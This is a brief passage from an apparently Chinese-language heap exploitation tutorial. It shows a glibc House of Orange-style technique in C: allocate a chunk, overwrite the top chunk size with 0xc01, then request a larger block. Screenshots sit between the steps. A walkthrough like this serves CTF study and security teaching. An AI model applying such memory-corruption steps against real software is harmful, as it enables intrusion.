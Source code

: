 ```plain
p1 = malloc(0x400-16);
```

[![](assets/1701606938-13ddf1d27d32b825a67368717df8e7f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201402-29d1dd50-6a8b-1.png)

改topchunk size

```plain
top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
```

[![](assets/1701606938-f4421eb81c6a77d307f2f64c6757c9ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201413-2fe78640-6a8b-1.png)

再申请一块大于topchunk size的堆块
